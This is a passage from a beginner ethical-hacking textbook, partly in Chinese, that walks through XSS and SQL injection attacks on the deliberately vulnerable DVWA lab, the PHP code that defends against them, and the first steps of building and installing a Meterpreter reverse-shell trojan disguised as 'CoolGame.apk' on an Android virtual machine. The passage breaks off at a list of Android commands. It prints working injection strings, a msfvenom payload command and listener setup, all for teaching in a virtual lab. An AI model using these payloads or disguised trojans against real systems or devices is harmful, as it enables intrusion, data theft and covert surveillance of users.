在本章中，你学习了攻击者如何使用 Metasploit 中的 Mimikatz 通过网络窃取 Windows 密码哈希。一旦攻击者通过他们诱骗你安装的恶意软件访问你的计算机，他们可以（并且经常会）在你的系统中查找密码或其他敏感数据。然后你看到黑客如何使用免费的在线密码数据库或 John the Ripper 中的字典攻击轻松破解许多密码哈希。你还学习了如何通过向旧的或不完整的密码添加几个通配符字符，使用掩码攻击来破解更复杂的密码。

最后，你学习了一些保护自己免受本章所介绍密码攻击的技术。以下是一份简短的注意事项清单，可以改变你的密码习惯：

* `Don’t` 在多个账户中使用相同的密码。

* `Don’t` 通过在末尾（或中间或开头）添加数字或符号来重复使用密码。

* `Don’t` 将密码写下来或将其存储在纯文本文档或电子表格中。

* `Do` 使用带有一个或多个特殊字符的长密码短语。

* `Do` 使用密码管理器和多因素身份验证。

这些技巧将使你的在线生活比普通人更轻松且 `much` 更安全。然而，攻击者不必访问你的计算机就能窃取你的密码；他们可以通过互联网从 Web 应用程序和服务器窃取密码和其他信息。在下一章中，我们将学习如何通过入侵我们虚拟实验室中的易受攻击的 Web 服务器来实现这一点。

不过，首先，查看 清单 7-2，看看你是否成功破解了本章开头的密码！


```
359878442cf617606802105e2f439dbc Wow!
63191e4ece37523c9fe6bb62a5e64d45 Great
9dddd5ce1b1375bc497feeb871842d4b job
4d1f35512954cb227b25bbd92e15bc7b cracking
e6071c75ea19bef227b49e5e304eb2f1 passwords!
```

Listing 7-2: Cracked passwords from Listing 7-1

# 8 Web Hacking


Hacking an individual computer might yield a handful of usernames, passwords, and other data. But hacking a web server could give an attacker millions of usernames and passwords to test on banking sites, email servers, and more.

A 2019 attack on Quest Diagnostics through a flaw in its web payment page exposed 12 million patients’ records. In 2017, the credit bureau Equifax failed to protect 150 million people’s credit information, including birth dates, Social Security numbers, and addresses. A hack against Marriott in 2018 compromised 500 million travelers’ data, including credit card numbers and passport data. The largest data breach to date—the 2013 attack on web search engine and email platform Yahoo!—exposed all 3 billion users’ accounts, including email addresses and passwords.

In this chapter, you’ll see how malicious hackers attack web applications with only a web browser and a few lines of code. You’ll also learn some common ways security professionals defend against web attacks, safeguarding millions (perhaps billions!) of people’s data from cybercriminals.

## The Metasploitable VM

We want to practice web hacking safely and ethically, so we’ll set up a web server in our virtual hacking lab. The creators of Metasploit also created an intentionally vulnerable web server, called Metasploitable, for training purposes. We’re going to use a version of that server that I’ve customized for you. Let’s add it to your virtual hacking lab:

1. Go to [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/) and click the link to download the `Metasploitable2-gohack.ova` file to your host computer.

2. Double-click the downloaded file to open it in VirtualBox. The Import Virtual Appliance window will open, as shown in Figure 8-1. Click `Import`.

    

    Figure 8-1: Importing the `Metasploitable2-gohack.ova` file into VirtualBox

3. Select the Metasploitable2 VM in the VirtualBox VM Manager and click `Settings`.

4. Go to the `Network` tab and make sure the Enable Network Adapter box is checked and shows Attached to: NAT Network and Name: PublicNAT, just as for our other VMs. The correct settings are shown in Figure 8-2.

    

    Figure 8-2: Making sure the Metasploitable VM is connected to the PublicNAT network

5. Click `OK` to save these network settings. Your new Metasploitable VM is now ready to run!

6. Select Metasploitable in VirtualBox Manager and click `Start`. Because Metasploitable is a web server, not a desktop computer, it uses a text-based interface instead of a graphical user interface. If the interface is too small to read, go to the VM’s menu bar and select `View`▶`Virtual Screen 1`▶`Scale to 200%` (or another value that fits your screen).

7. Enter the username `msfadmin` and password `msfadmin`. The password won’t show up as you type in the terminal window on Metasploitable, but if you enter it correctly, the prompt will change from the login to a shell prompt like this one:

    ```
    msfadmin@metasploitable:~$
    ```

8. Enter this command:

    ```
    msfadmin@metasploitable:~$ ip a
    ```

    Metasploitable will respond with its IP address (`10.0.9.8` in my case):

    ```
    --snip--
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000 link/ether 08:00:27:11:23:67 brd ff:ff:ff:ff:ff:ff inet 1 10.0.9.8/24 brd 10.0.9.255 scope global eth0 --snip--
    ```

    Take note of the IP address 1. You’ll need it to surf to the Metasploitable VM’s web server from your other virtual machines.

## Web Hacking from a Browser

Web hacking is very common because it’s rewarding for attackers (remember, a successful attack against a web server can yield millions of users’ information at once), web servers are always on and connected to the internet, and the attacker needs only a web browser to do it. To see how it works, we’ll hack the Metasploitable server from the Edge browser in our Windows 10 VM.

Start your Windows 10 VM in VirtualBox Manager. Log in with the credentials `IEUser` and `Passw0rd!`. Open the Edge browser (it’s the blue `e` swirl icon on the taskbar) and enter your Metasploitable VM’s IP address into the address bar. You’ll see the Metasploitable 2 home page shown in Figure 8-3.



Figure 8-3: From your Windows 10 VM, enter your Metasploitable VM’s IP address to see this home page.

Metasploitable 2 contains five vulnerable web applications, but we’ll focus on just one of them: DVWA, or Darn Vulnerable Web App. This intentionally vulnerable open source web application was built to help web developers and security professionals learn basic hacks, as well as how to protect a web application from them. DVWA has different vulnerability levels so users can try hacking applications with varying degrees of security. We’ll set the security level to low, to simulate a web application with no added security.

1. Click the `DVWA` link on the Metasploitable 2 home page. You’ll see the app’s login screen, shown in Figure 8-4.

2. Enter `admin` as the username and `password` as the password to access DVWA.

    

    Figure 8-4: The DVWA login screen with our credentials

3. Click `DVWA Security` on the left.

4. Under the Script Security section, set the security level to `low` and click `Submit`, as shown in Figure 8-5.

    

    Figure 8-5: Setting the DVWA script security level to low

Now we’re ready to try out two kinds of web attacks on DVWA: cross-site scripting attacks and SQL injection attacks.

### Launching Cross-Site Scripting Attacks

In a cross-site scripting (XSS) attack, a hacker enters malicious code into a web page through a field intended for regular text input, such as a login form or a search field. XSS attacks are also known as code injection attacks, because hackers are able to enter, or inject, their own code into the web application. We’ll use two web languages—JavaScript and HyperText Markup Language (HTML)—to inject a script into DVWA.

To test a web application for XSS vulnerabilities, you need only a single JavaScript command:

```
alert("You've been hacked!");
```

The command pops up an alert box reading “You’ve been hacked!” To inject it into a web page, we wrap the JavaScript code in the proper HTML tags, `<script>` and `</script>`, like this:

```
<script>alert("You've been hacked!");</script>
```

The HTML `<script>` tag tells a web page that a script (a short piece of code), usually in JavaScript, is beginning. The `</script>` tag is called a closing tag, and it lets the web page know the script code is finished.

#### Reflected Cross-Site Scripting


A *反射式 XSS 攻击*利用那些直接将用户输入显示或*反射*回网页上的页面，例如要求输入姓名和地址的订单表单，然后将其显示给你以确认输入正确。攻击者使用反射式跨站脚本将恶意 HTML 或 JavaScript 代码注入未受保护的 Web 应用程序。让我们来试试！

1.  在 Windows 10 虚拟机上的 DVWA 中，单击左侧的 **XSS reflected** 打开漏洞：反射式跨站脚本（XSS）网页。

    此页面旨在在单词 *Hello* 之后显示你在 What’s your name? 文本字段中输入的内容。例如，如果你输入姓名 `Bryson`，页面将响应 `Hello Bryson`。

2.  不要输入你的姓名，而是将上一节中的 HTML/JavaScript 命令输入到姓名文本字段中，如 图 8-6 所示：

    ```
    <script>alert("You've been hacked!");</script>
    ```

    

    Figure 8-6: Attacking the reflected XSS page by entering HTML and JavaScript into the text box

3.  单击 **Submit**，网页将重新加载，并弹出消息 “You’ve been hacked!”，如 图 8-7 所示。

    

    Figure 8-7: The vulnerable web page pops up a message saying we’ve been hacked!

通过将一行 HTML 和 JavaScript 组合并将其输入到 DVWA 中未受保护的文本框，我们将代码注入了网页。恶意攻击者可以使用相同的技术说服用户他们的计算机确实正受到攻击，并让他们拨打免费电话寻求“技术支持”。在这种常见的诈骗中，犯罪分子租用呼叫中心来获取受害者的信用卡信息，并向他们收取虚假计算机服务的费用。

#### 存储式跨站脚本

大多数网站使用数据库来存储用户输入或经常变化的信息，例如产品信息或客户数据。如果攻击者将恶意代码注入与数据库关联的 Web 表单，该恶意代码将存储在数据库中，并成为网页的永久部分。这种攻击称为 *存储式 XSS 攻击*，可确保每次有人查看受影响的网页时，恶意代码都会运行。相比之下，我们的反射式 XSS 攻击并未永久更改网页，因为我们注入的代码未保存到数据库中。我们现在来尝试一次存储式 XSS 攻击。

1.  单击左侧 DVWA 菜单中的 **XSS stored**。你将看到一个类似留言本的应用程序，允许用户将姓名和简短消息保存到页面。

2.  不要用你的姓名和一条友好的消息来签署留言本，只需输入你的姓名。然后，在 Message 文本框中，输入我们要存储在此页面数据库中的 XSS 攻击代码，`<script>alert("You've been hacked!");</script>`，如 图 8-8 所示。

    

    Figure 8-8: Storing our malicious script in the XSS stored page in DVWA

3.  单击 **Sign Guestbook**，你将看到弹出警报，如 图 8-9 所示。

    

    Figure 8-9: Our JavaScript alert will tell every visitor, “You’ve been hacked!”

与反射式攻击不同，每次有人访问存储式跨站脚本（XSS）留言本页面时，此警报都会弹出。你已使用数据库驱动的网页在 DVWA 网站中永久存储了恶意脚本。

不过，JavaScript 可以做的远不止弹出警报消息。让我们更改浏览器的 `window.location` 以将用户重定向到完全不同的网站：

1.  再次加载 XSS stored 网页，并单击 **OK** 关闭警报消息弹出窗口。

2.  这次，在正常输入姓名后，将以下代码输入到 Message 文本框中，如 图 8-10 所示：

    ```
    <script>window.location.href="https://www.nostarch.com/go-hck-yourself";</script>
    ```

    

    Figure 8-10: Entering a more malicious script that will redirect the user to a completely different web page

3.  单击 **Sign Guestbook**，你将看到我们之前注入的警报弹出窗口。但一旦关闭警报，你将被带到 [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/)。你无法返回 DVWA XSS stored 页面，因为每次重新加载页面时，它都会重定向到 *Go H\*ck Yourself* 网页。

我们已永久劫持 XSS stored 页面，因此每位访问者都将被重定向到本书的网站，而不是原页面。攻击者可以对雇主网站、你喜爱的在线游戏或社交媒体应用，甚至当地政府网站上的未受保护 Web 应用程序做同样的事情，甚至更糟。要恢复网站的原始功能，网站管理员需要访问数据库并完全删除存储的 XSS 代码。

要在 DVWA 中重置数据库以删除我们输入的恶意代码，请单击左侧 DVWA 菜单中的 **Setup**，如 图 8-11 所示。然后单击 **Create / Reset Database**，DVWA 将把数据库重置为原始状态。

 

Figure 8-11: Clearing your stored XSS hacks

### 对数据库发起 SQL 注入攻击

将恶意代码注入 *到* 网站中很可怕，但黑客如何从网站中窃取敏感数据？在本节中，你将学习 Web 黑客如何使用结构化查询语言（SQL）注入攻击直接从网站数据库窃取信息。SQL 是访问大多数数据库所使用的语言，而 *SQL 注入* *(SQLi)* 是指将恶意 SQL 代码插入 Web 应用程序，以诱骗应用程序的数据库泄露私密信息。

数据库包含 *表*，表看起来像带有列和行的电子表格。列用于不同的 *字段* 或信息片段，例如名、姓、用户名、密码、电子邮件地址等。行用于单个 *记录*。例如，用户表中的每个用户都会占据单独的一行。

当我们访问数据库时，我们使用 SQL *查询*，例如：

```
SELECT password FROM users WHERE username='Bryson'
```

此查询请求从 `users` 表中 `username` 字段为 `Bryson` 的行或行中获取 `password` 字段。我们可以稍微修改查询以请求 *所有* 用户的密码：

```
SELECT password FROM users WHERE username='Bryson' OR 1='1'
```

通过向查询添加 `OR` 条件，我们要求数据库从 `users` 表中选择所有密码。在每一行中，SQL 都会询问 `username` 是否等于 `'Bryson'`，或者该行中 `1` 是否等于 `'1'`。如果任一条件为真，SQL 将返回该行的密码。因为其中一个条件 *始终* 为真（1 始终等于 1），数据库将返回 `users` 表中的 *每个* 密码。

让我们将一些 SQL 查询注入 DVWA，以从网站数据库窃取信息。

1.  在 Windows 10 虚拟机的 Edge 浏览器中，确保 DVWA Script Security 设置为低（如第 95 页的 图 8-5 所示）。

2.  单击左侧 DVWA 菜单中的 **SQL Injection**。你将看到一个用户查找页面，如 图 8-12 所示。


通常，将用户 ID（例如 `1`）输入文本框并单击 `Submit` 会显示该特定用户的信息。不过，我们会黑掉这个表单，以显示所有用户。

3. 如果你尝试过查找用户，请重新加载 SQL 注入页面。然后在用户 ID：文本框中输入 `' OR 1='1`，如 图 8-12 所示。


图 8-12：通过向易受攻击的数据库搜索表单注入 SQL 代码来攻击数据库

4. 单击 `Submit`，你应该会看到所有用户的名和姓（姓氏）列表，如 图 8-13 所示。

5. 现在让我们提取所有 DVWA 用户名和密码。重新加载 SQL 注入页面，并在用户 ID 下方的搜索框中输入以下 SQL 代码：

```
' union select user, password from users#
```


图 8-13：我们揭露了所有五个用户的名和姓！

SQL 中的 `union` 命令将两个查询语句连接起来，以便同时访问多个表。在此示例中，我们将用于查找名和姓的用户 ID 查询与一个将从 `users` 表返回用户名和密码的查询相结合。

6. 单击 `Submit`，你将看到所有五个用户的用户名和密码取代了他们的名和姓，如 图 8-14 所示。所有密码都以哈希形式存储，但如你在第 7 章中所学，Hashes.com 或 John the Ripper 等工具可以轻松破解大多数密码哈希。


图 8-14：我们使用 SQL 注入攻击从 DVWA 窃取了所有用户名和密码哈希！

如你所见，掌握几行 JavaScript 或 SQL 代码的黑客可以破坏 Web 应用程序，将用户重定向到恶意网站，窃取数据，或者造成更严重的后果。幸运的是，道德黑客可以帮助网站所有者防御这些攻击，从而大大提升每个人在线数据的安全性。

## 保护 Web 应用程序免受 XSS、SQLi 等攻击

DVWA 展示了如何黑客攻击 *以及* 如何保护 Web 应用程序。在每个易受攻击页面的右下角，都有一个“查看源代码”按钮，用于显示页面的代码。我们将比较低安全级别页面的源代码与较高安全级别页面的源代码，以学习如何防御注入攻击。

仍在 SQL 注入页面上，且 DVWA 的脚本安全级别设置为低，单击 `View Source` 以查看用户查找应用程序的源代码，包括以下两行代码：

```
$id = $_GET['id']; 
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'"; 
```

这个 Web 应用程序使用 PHP 编写，这是一种流行的 Web 编程语言。第一行代码从名为 `'id'` 的表单字段获取用户输入，并将其存储在名为 `$id` 的变量中。然后，它使用用户输入创建一个 SQL 查询。用户未经修改的输入成为代码的一部分——这是一个危险的编程错误，也是让我们能够入侵数据库的原因。

单击左侧的 `DVWA Security`，将脚本安全级别更改为 `medium`，然后单击 `Submit`。单击 `SQL Injection` 返回用户查找应用程序，然后再次单击 `View Source`。（如果在切换安全级别时遇到问题，请关闭 Edge 浏览器，重新打开它，然后重新登录 DVWA。）这一次，你会看到在刚才列出的两行代码之间插入了一行新代码：

```
$id = mysql_real_escape_string($id); 
```

这一行重新格式化了用户的输入，在用户输入的任何特殊字符（例如我们在 `' OR 1='1` 攻击中使用的单引号 `'`）之前添加 *转义字符*（如反斜杠 `\`）。在单引号前添加反斜杠会告诉数据库将单引号视为文本的一部分，而不是命令的一部分。`mysql_real_escape_string()` 命令通过将单引号和其他潜在恶意字符更改为其无害的转义序列形式（`\'`）来使表单更安全，因此数据库不会将它们视为代码，但有动机的攻击者仍然可能绕过此保护。

返回 DVWA Security 页面，并将脚本安全级别更改为 `high`。然后返回 SQL 注入页面，最后一次单击 `View Source`。查找以下代码：

```
    $id = $_GET['id']; $id = stripslashes($id); $id = mysql_real_escape_string($id);    if (is_numeric($id)){ --snip--
```

高安全级别代码使用 `stripslashes()` 命令从用户文本中删除反斜杠，并使用 `is_numeric()` 确保你输入了一个数字。使用 `is_numeric()` 是表单字段 *验证* 的一个示例：`is_numeric()` 命令检查用户的提交是否处于可接受的预期格式中（在此示例中为数字 ID），并且仅在符合条件时才继续执行。

查看低、中、高安全级别下其他一些页面的源代码，以发现 Web 开发人员用于保护其应用程序的其他命令层。例如，XSS 反射页面的安全版本包含 `htmlspecialchars()` 以防止 HTML 和 JavaScript 注入。为了防止用户输入破坏网站或数据库代码，较高安全级别源代码中的附加命令会对输入进行 *清理*，即在输入用于网站或数据库之前，从中删除潜在的恶意代码符号（如单引号、反斜杠和尖括号字符）。

## 要点

在本章中，你了解到 Web 服务器全天候在线，全球黑客随时可访问。此外，一个未受保护的 Web 表单可能会将数百万用户的数据暴露给攻击者。你在虚拟黑客实验室中构建了一个故意存在漏洞的 Web 服务器（Metasploitable VM），并使用 DVWA Web 应用程序训练自己测试两种代码注入类型：跨站脚本（XSS）和 SQL 注入（SQLi）。

你使用反射型和存储型恶意 JavaScript 代码使网页弹出警报消息并将浏览器重定向到不同的网站。你使用 SQL 查看了数据库驱动型 Web 应用程序中所有用户的名和姓，然后了解到攻击者如何从 Web 数据库窃取用户名和密码哈希。借助我们在第 7 章中使用的密码破解工具，攻击者可以用很少的技能或努力窃取数百万个用户名和密码。

鉴于利害关系如此重大，保护 Web 应用程序免受攻击是道德黑客的重要职责。充分保护 Web 应用程序需要多层安全防护。你了解了流行 Web 编程语言 PHP 中的几个函数，这些函数通过删除特殊的代码相关字符来清理用户输入，从而保护服务器和数据库。你还看到了表单字段验证的示例，即检查文本字段以确保用户输入了可接受的值。

在下一章中，你将为你的道德黑客工具包再添加一组技能——移动设备黑客攻击！你将学习如何保护自己和家人朋友免受日益增加的移动攻击。

# 9

黑客攻击移动设备


在本章中，我们将探索移动设备黑客攻击的世界。你将使用世界上最流行的移动操作系统 Android 构建一个虚拟机。然后你将使用 Metasploit 入侵你的虚拟移动设备，并使用 Meterpreter 远程控制它，就像你在第 6 章中黑客攻击 PC 一样。你还将学习几种方法来保护自己和家人朋友免受日益增加的移动攻击。

## 创建 Android 手机/平板电脑虚拟机


# 添加 Android 虚拟机

我们想以安全、合乎道德的方式入侵一台 Android 移动设备，因此我们将首先在虚拟黑客实验室中添加一个 Android VM。按照以下步骤下载并配置 VM。

1. 访问 [`www.osboxes.org/android-x86/`](https://www.osboxes.org/android-x86/) 并向下滚动到 Android-x86 8.1-RC1 Oreo 部分。选择 `VirtualBox` 选项卡，然后单击 64 位版本的 `Download` 按钮。

2. 你的下载文件应具有 `*.7z` 扩展名。要解压缩文件，你需要下载并安装适用于 Windows 的 7-Zip、适用于 Mac 的 Archiver 或适用于 Linux 的 p7zip-full。安装所需软件后，解压缩 Android VM：在 Windows 上，右键单击文件并选择 `7-Zip`▶`Extract Here`；在 macOS 或 Linux 上，双击文件。VM 将被解压缩到名为 `64bit` 的文件夹中。

3. 打开 VirtualBox 并单击 `New` 打开创建虚拟机窗口。

4. 在名称和操作系统对话框中，在名称：文本框中输入 `Android 8.1` 或类似名称，从类型：下拉列表中选择 `Linux`，并从版本：下拉列表中选择 `Other Linux (64-bit)`。然后在 Windows 上单击 `Next` 或在 macOS 上单击 `Continue`。

5. 在内存大小对话框中，在框中输入 `2048` 为 VM 提供 2,048MB（2GB）内存，然后单击继续到下一屏幕。

6. 在硬盘对话框中，选择 `Use an existing virtual hard disk file` 并单击浏览图标（带有绿色箭头的文件夹）。在弹出的窗口中，单击 `Add`。然后在你解压缩的 `64bit` 文件夹中查找并选择 `*.vdi` 文件。

7. 单击返回到硬盘对话框并选择 `Create` 以创建 VM。你的新 Android 8.1 VM 现在应该出现在 VirtualBox 的 VM 列表中，如 图 9-1 所示。

8. 在列表中选择 Android VM，转到 `Settings`，并选择 `Display` 选项卡。在图形控制器：下拉列表中，选择 `VBoxSVGA`。这将更改显示设置，以便我们能够看到 Android 智能手机 VM 的图形用户界面 (GUI) 版本。

9. 仍在 Display 选项卡中，确保 `Enable 3D Acceleration` 旁边的复选框未被选中。（不过，如果你的 VM 过一段时间无法工作，你可能需要打开 3D 加速。）

10. 切换到 `Network` 设置选项卡并选择名为 `PublicNAT` 的 NAT 网络。这将使你的 Android VM 能够与你虚拟黑客实验室中的 Kali VM 通信。


图 9-1：我们已将 Android 8.1 VM 添加到 VirtualBox！

你现在可以启动 Android VM 了！首次加载可能需要几分钟（如果屏幕黑屏超过一分钟左右，你可能需要重启 VM），但你最终会看到类似 图 9-2 所示的 Android 设备主屏幕。


图 9-2：你虚拟 Android 设备上的主屏幕

在开始探索 VM 之前，请在 Android VM 的菜单栏中转到 `Input`▶`Mouse Integration` 以取消选择鼠标集成。保持鼠标集成开启会使控制 Android VM 上的指针变得困难。（Android VM 是为触摸屏设计的，因此在 Android 中使用鼠标本身就令人沮丧。）完成此操作后，你就可以开始探索你的虚拟 Android 设备了。

打开 Chrome 浏览器并浏览网页，或打开联系人应用并添加一些联系人——随意尝试你想做的任何事情。Android VM 与真实的 Android 平板电脑或手机几乎完全相同，只是它无法拨打电话，也没有某些传感器（例如用于位置服务的 GPS）。请记住，当你想要退出 Android VM 时，可以使用右 CTRL 键（Windows）或左 COMMAND 键（Mac）来重新控制鼠标，就像我们对其他 VM 所做的那样。

# 启动 Android 木马

现在我们准备创建一些恶意软件。就像我们在第 6 章中对 Windows VM 所做的那样，我们将使用 Meterpreter 木马来感染并控制 Android VM。我们将木马隐藏在名为 `CoolGame.apk` 的文件中。Android 使用 `APK file format` 来分发和安装移动应用。按照以下步骤，你将看到攻击者诱骗 Android 用户安装并运行受感染应用是多么容易。

1. 登录到你的 Kali VM 并启动 Metasploit。

2. 在 Metasploit `msf6` 命令提示符下，输入以下命令作为一行长命令，将你的 Kali VM 的 IP 地址替换到 `LHOST=` 之后：

```
msf6 > sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.9.4 -f raw -o /var/www/html/share/CoolGame.apk
```

这将创建一个 `android/meterpreter/reverse_tcp` 有效载荷，形式为 APK 文件，并将其直接保存到 Kali 的共享 Web 文件夹中。Metasploit 将输出几行内容，最后类似于以下内容：

```
--snip--
Payload size: 10080 bytes
Saved as: /var/www/html/share/CoolGame.apk
```

3. 打开 Apache Web 服务器服务，以便你可以从 Android VM 下载该文件：

```
msf6 > sudo service apache2 start
```

4. 要验证你的 Kali Web 服务器是否处于活动状态，请打开 Firefox 并访问 `localhost/share`。你应该在文件列表中看到 `CoolGame.apk`。

5. 在 Metasploit 终端窗口中输入以下四个命令，以设置处理传入 Meterpreter 连接的监听器：

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD android/meterpreter/reverse_tcp PAYLOAD => android/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.9.4
LHOST => 10.0.9.4
msf6 exploit(multi/handler) > exploit
```

Metasploit 现在正在监听传入连接！

# 感染 Android 虚拟机

现在我们将下载木马应用并故意感染你的虚拟 Android 设备。切换回你的 Android VM 并按照以下步骤操作：

1. 打开 Chrome 浏览器，在地址栏中输入你的 Kali VM 的 IP 地址，后跟 `/share/`，例如 `10.0.9.4/share/`，如 图 9-3 所示。


图 9-3：从 Android VM 的 Chrome 浏览器导航到 Kali VM 的 `share` 文件夹，找到准备下载和安装的 `CoolGame.apk` 木马应用。

2. 单击 APK 文件以下载它。当你首次尝试下载文件时，Android 会弹出一条消息，要求你授予 Chrome 访问设备文件存储的权限。单击 `Update Permissions`，然后单击 `Allow`。


3. 再次单击 APK 文件以下载它。Chrome 通常会显示警告“此类文件可能会损坏你的设备”。单击 `OK` 仍然下载该文件。

4. 单击 Android VM 屏幕左上角的向下箭头，你将看到如 图 9-5 所示的下载管理器。单击列表中 APK 文件的名称以安装该应用。

5. Android 会再次弹出一个窗口，告诉你“你的手机不允许从此来源安装未知应用”。单击 `Settings`，然后滑动切换开关以打开 `Allow from this source` 设置。


图 9-5：访问下载管理器


6. 单击 Android 屏幕底部黑色条中的返回按钮（左箭头），你将看到 Meterpreter 木马应用（名为 `MainActivity`）正在请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问权限……几乎智能手机允许的所有权限！单击权限窗口右下角的 `Next`，然后单击 `Install`。如果出现 Google Play Protect 警告，请单击 `Install Anyway`。

7. 单击 Android 虚拟机屏幕底部的主页按钮（中间的圆圈）。然后点击并向上拖动屏幕以显示已安装的应用。单击 `MainActivity` 图标以启动木马应用。

8. 切换回你的 Kali 虚拟机，你将看到 Meterpreter 中打开了一个新会话。

我们的木马在 Android 设备上已向 Kali 发起呼叫，并正在等待命令。让我们看看一旦控制了设备，我们能做什么。

## 控制 Android 虚拟机

恶意移动应用带来的威胁与 PC 上恶意软件的威胁同样真实。如果你在智能手机上安装了恶意软件，攻击者将能够访问大量敏感信息：你拍摄过的每一张照片和视频、所有联系人、通话和短信记录、GPS 位置历史记录、你进行过的每一次网络搜索和观看过的 YouTube 视频，以及攻击者随时可用来监视你的便携式摄像头和麦克风——这就是你随身携带的一切。

为了了解恶意黑客可以使用像 Meterpreter 木马这样的应用做什么，请在 Meterpreter 终端窗口中输入 `help`。你将看到所有可用 Meterpreter 命令的列表。除了我们在第 6 章中黑进 Windows PC 时看到的命令之外，还有两个仅针对 Android 设备的命令部分：

```
Android Commands
